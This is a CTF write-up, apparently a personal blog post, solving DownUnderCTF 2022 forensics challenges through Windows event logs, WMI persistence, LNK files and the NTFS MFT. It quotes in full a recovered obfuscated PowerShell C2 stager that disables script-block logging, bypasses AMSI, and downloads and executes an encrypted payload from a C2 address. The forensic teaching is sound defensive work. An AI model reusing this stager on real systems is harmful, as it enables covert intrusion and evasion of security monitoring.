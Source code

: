 ```yaml
---
layout: post
title: "DownUnderCTF 2022"
date: 2022-09-24
image: ../../assets/img/Posts/ductf.png
categories: [CTF-TIME]
tags: [FTKImager, MFT, LNK]
---
```


# Forensics

## DFIR Investigation 1

An attacker has installed a C2 persistence mechanism on this system.

> When is it scheduled to next execute?

> What C2 IP address is the PowerShell stager configured to connect to?

Flag format: DUCTF{hh:mm_IP}
Flag example: DUCTF{15:27_10.0.0.8}

---

Load the image artifact in FTK imager and navigate to `%SystemRoot%\System32\winevt\Logs` . We then need to extraxt the `Microsoft-Windows-PowerShell%4Operational.evtx` event logs file as shown below.

![image](https://user-images.githubusercontent.com/58165365/192341036-e308ab07-93cf-4332-8464-56d4318482cc.png)

We can use Event viewer to analyse the logs but ... meeeh 😫 I used [Event Log Explorer](https://eventlogxp.com/) , an effective software solution for viewing, analyzing and monitoring events recorded in Microsoft Windows event logs. You can also play around with [EvtxECmd](https://f001.backblazeb2.com/file/EricZimmermanTools/EvtxECmd.zip)

Moving on, we have 16 records but only interested in those that contain event id 4104

> _The event ID 4104 refers to the execution of a remote PowerShell command. This is a malicious event where the code attempts to retrieve instructions from the internet._

![image](https://user-images.githubusercontent.com/58165365/192338901-893f5820-8c8a-4d9d-8518-caa972e8c2ec.png)

All three events contained similar scriptblocks.

```powershell
Creating Scriptblock text (1 of 1):
If($PSVERSiOnTAblE.PSVerSIOn.MajOr -gE 3){$f0C32=[ref].ASseMBLy.GEtTyPE('System.Management.Automation.Utils')."GETFiE`LD"('cachedGroupPolicySettings','N'+'onPublic,Static');If($f0C32){$eA761=$f0c32.GetVaLuE($NULL);IF($Ea761['ScriptB'+'lockLogging']){$Ea761['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$eA761['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECtiONs.GeNEric.DIctioNAry[strIng,SystEm.ObJEct]]::neW();$vAL.ADd('EnableScriptB'+'lockLogging',0);$VaL.AdD('EnableScriptBlockInvocationLogging',0);$eA761['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$Val}ELsE{[SCriPTBlOCK]."GETFIe`LD"('signatures','N'+'onPublic,Static').SeTVAlUE($NULl,(New-ObjECT COllECtIONs.GeneRiC.HAshSet[StRiNG]))}$Ref=[ReF].ASsEmbLY.GetTyPE('System.Management.Automation.Amsi'+'Utils');$ReF.GEtFIelD('amsiInitF'+'ailed','NonPublic,Static').SETVALUe($nULL,$TRUe);};[SYStEm.Net.ServiCePOintMaNagER]::ExpECt100ConTinuE=0;$B3904=New-OBjECT SYsTEM.Net.WEbClIent;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TexT.EncODinG]::UNICOdE.GETStRiNg([CONvErt]::FrOMBaSe64StRING('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMAAuADIANwA6ADcANwA3ADcA')));$t='/news.php';$B3904.HEadErS.AdD('User-Agent',$u);$b3904.PROXY=[SYSTeM.NEt.WebREQuESt]::DefaUlTWebPrOxY;$B3904.Proxy.CredeNTIalS = [SySTeM.NEt.CREdEntIaLCAChe]::DEFAuLtNETworKCreDEntIals;$Script:Proxy = $b3904.Proxy;$K=[SysteM.Text.ENCoDInG]::ASCII.GEtBYtes('/Y0dzf;_)NkL^~M#K(xG]*rOFe,C}2%R');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H])%256]}};$B3904.HeaderS.ADD("Cookie","lvzoFoofzAIvDVtv=R7eEC+1KSXf3X+sUQhz2DF+NSjQ=");$DATa=$b3904.DOWnLOAdDATA($SEr+$T);$iv=$Data[0..3];$dATa=$DaTA[4..$data.LenGTh];-Join[CHAr[]](& $R $DatA ($IV+$K))|IEX
```

Since i'm not that profficient with Powershell, i decided to poke around with yet another tool called [Hayabusa (隼)](https://github.com/Yamato-Security/hayabusa), a sigma-based threat hunting and fast forensics timeline generator for Windows event logs.

![image](https://user-images.githubusercontent.com/58165365/192407797-0945ccf1-1443-4f5f-9901-54b5ed11d56c.png)

From the results, atleast we have a general feel of what the script blocks do. For instance they are flagged as either:

- Potentially Malicious PwSh
- Suspicious PowerShell Invocations - Specific
- Windows PowerShell Web Request
- PwSh Scriptblock Log

It also gives you a nice summary(especially if you are analyzing many event log files).Hayabusa is just crazy awesome and hope to cover it in depth in subsequent blogs.

![ductf](../../assets/img/Posts/DUCTF/resultsummary.png)

Anyway, i went ahead and cleaned it ABIT for easier readability:

```powershell
if($psversiontablepsversionmajor -ge 3){$f0c32=[ref]assemblygettype('systemmanagementautomationutils')"getfie`ld"('cachedgrouppolicysettings','n'+'onpublic,static');if($f0c32){$ea761=$f0c32getvalue($null);if($ea761['scriptb'+'locklogging']){$ea761['scriptb'+'locklogging']['enablescriptb'+'locklogging']=0;$ea761['scriptb'+'locklogging']['enablescriptblockinvocationlogging']=0}$val=[collectionsgenericdictionary[string,systemobject]]::new();$valadd('enablescriptb'+'locklogging',0);$valadd('enablescriptblockinvocationlogging',0);$ea761['hkey_local_machine\software\policies\microsoft\windows\powershell\scriptb'+'locklogging']=$val}else{[scriptblock]"getfie`ld"('signatures','n'+'onpublic,static')setvalue($null,(new-object collectionsgenerichashset[string]))}$ref=[ref]assemblygettype('systemmanagementautomationamsi'+'utils');$refgetfield('amsiinitf'+'ailed','nonpublic,static')setvalue($null,$true);};[systemnetservicepointmanager]::expect100continue=0;$b3904=new-object systemnetwebclient;$u='mozilla/50 (windows nt 61; wow64; trident/70; rv:110) like gecko';$ser=$([textencoding]::unicodegetstring([convert]::frombase64string('aab0ahqacaa6ac8alwaxadkamgauadeanga4ac4amaauadianwa6adcanwa3adca')));$t='/admin/getphp';$b3904headersadd('user-agent',$u);$b3904proxy=[systemnetwebrequest]::defaultwebproxy;$b3904proxycredentials = [systemnetcredentialcache]::defaultnetworkcredentials;$script:proxy = $b3904proxy;$k=[systemtextencoding]::asciigetbytes('/y0dzf;_)nkl^~m#k(xg]*rofe,c}2%r');$r={$d,$k=$args;$s=0255;0255|%{$j=($j+$s[$_]+$k[$_%$kcount])%256;$s[$_],$s[$j]=$s[$j],$s[$_]};$d|%{$i=($i+1)%256;$h=($h+$s[$i])%256;$s[$i],$s[$h]=$s[$h],$s[$i];$_-bxor$s[($s[$i]+$s[$h])%256]}};$b3904headersadd("cookie","lvzofoofzaivdvtv=kwvhnwexsgzizxxp+6go0di09jg=");$data=$b3904downloaddata($ser+$t);$iv=$data[03];$data=$data[4$datalength];-join[char[]](& $r $data ($iv+$k))|iex
```

Reading through the script block, i noted a base64 encoded string. Decoding the base64 string, we get the c2 server URL and port (http://192.168.0.27:7777)

![image](https://user-images.githubusercontent.com/58165365/192340047-7d82d2c8-9171-46d1-8f2e-60828a230ca2.png)

### Part 2 of the flag

---

From a defenders perspective, one common Technique used by TA to maintain persistence on a system is by abusing WMI (Windows Management Instrumentation) - [T1546.003](https://attack.mitre.org/techniques/T1546/003/). David French, a Threat Researcher does an excellent job explaining this on his [blog](<(https://medium.com/threatpunter/detecting-removing-wmi-persistence-60ccbb7dff96)>).

> **~MITRE:** _Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system._

WMI uses the Common Information Model (CIM) to represent classes of information.The CIM database consists of multiple files (`OBJECTS.DATA`, `MAPPING*.MAP`, `INDEX.BTR` and prior to Windows Vista `MAPPING.VER`) that are located in the following directory `C:\Windows\System32\WBEM\repository\` as shown below:

![image](https://user-images.githubusercontent.com/58165365/192342019-bcd4a33d-7e54-428e-a8f6-86eeb032ea54.png)

We only need to extract `OBJECTS.DATA` and use the [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) script to find WMI persistence via FitlerToConsumerBindings.

## DFIR Investigation 2

    What time was passwd.txt first opened by the user Challenger?
    What string was contained in passwd.txt?

Flag format: DUCTF{hh:mm:ss_string}

Flag example: DUCTF{18:13:45_hunter2}

---

Windows maintains a list of recently opened files for each user. As you might have seen when using Windows Explorer, it shows you a list of recently used files. This information is stored in the `NTUSER hive` and can be found on the following location:

`NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs`

Now, from the forensic image submitted to us, we can extract it from the User's root diretory as shown below

![image](https://user-images.githubusercontent.com/58165365/192344834-947906bc-1658-4d30-8e97-4fc30c2043fb.png)

With that done, we can explore the artifact using Eric Zimmermans tool called [Registry Explorer](https://f001.backblazeb2.com/file/EricZimmermanTools/RegistryExplorer.zip)

![image](https://user-images.githubusercontent.com/58165365/192347580-6e4b7349-fa56-43f2-a95d-7db1c087ee4b.png)

From the screenshot above, we can see that the file was opened at 10:36:47 and an LNK file was created.

LNK files are used by the Windows OS to link one file to another, which is how we can have application shortcuts that work as a redirector – so when we click on a shortcut it will go and find the application wherever it resides in the file system and runs the corresponding application. We can collect valuable metadata from LNK files such as the location of the folder it is linked to, the date the LNK file was created, modified, last accessed, the file size, and more.

LNK files can be found at: `C:\Users\$USER$\AppData\Roaming\Microsoft\Windows\Recent`

![image](https://user-images.githubusercontent.com/58165365/192348612-e9780735-5713-4283-985e-12d7b8c95254.png)

We can use a tool like [LECmd](https://f001.backblazeb2.com/file/EricZimmermanTools/LECmd.zip) to parse through the LNK as shown below.

![ductf](../../assets/img/Posts/DUCTF/lecmd.png)

### Part 2 of the flag

In order to get contents of the file, we need to analyse another file, the MFT(Master File Table). In a nutshell, i'll try explain what it is briefly by quoting a paragraph from _Gurkok, C. (2017). Cyber Forensics and Incidence Response. In Computer and Information Security Handbook (pp. 603-628). Morgan Kaufmann._

> MFT or $MFT can be considered one of the most important files in the NTFS file system. It keeps records of all files in a volume, the files' location in the directory, the physical location of the files in on the drive, and file metadata. The metadata includes file and folder create dates, entry modified dates, access dates, last written dates, physical and logical file size, and ACLs of the files.

The $MFT file is located under the root of each volume and can be extracted using FTKImager as shown below.

![image](https://user-images.githubusercontent.com/58165365/192352621-823392c5-820d-48d6-a289-218cfad2d04e.png)

We can then proceed to use another tool by Eric Zimmerman called [MFTExplorer](https://f001.backblazeb2.com/file/EricZimmermanTools/MFTExplorer.zip) to analyse the file.

Once you load the MFT file, navigate to `Users\Challenger\Desktop` and select `passwd.txt` file. Here we get similar information we got earlier (File creation timestamp). Still on the Overview section, we get the `Resident Data` with some hex values. Tracing this from the hex dump, we get the contents of the file.

> _Resident data is when the data for a file is within the MFT entry, rather than out in the rest of the file system. Non-resident data is the exact opposite._

![ductf](../../assets/img/Posts/DUCTF/mftexplorer.png)

Alternatively, we can also use another cli tool by Zimmerman called [MFTECmd](https://f001.backblazeb2.com/file/EricZimmermanTools/MFTECmd.zip) to analyse the file as shown below:

![ductf](../../assets/img/Posts/DUCTF/mftecmd.png)

**Flag:** `DUCTF{08:25:07_R3sident!al}`

# Resoures:

https://github.com/libyal/dtformats/blob/main/documentation/WMI%20repository%20file%20format.asciidoc
https://forensicswiki.xyz/wiki/index.php?title=WMI

- [SANS - Resident $DATA Residue in NTFS MFT Entries](https://www.sans.org/blog/resident-data-residue-in-ntfs-mft-entries/)
- [forensicswiki - MFT](https://forensicswiki.xyz/wiki/index.php?title=$MFT)
- [HOW TO INVESTIGATE FILES WITH FTK IMAGER](https://eforensicsmag.com/how-to-investigate-files-with-ftk-imager/)
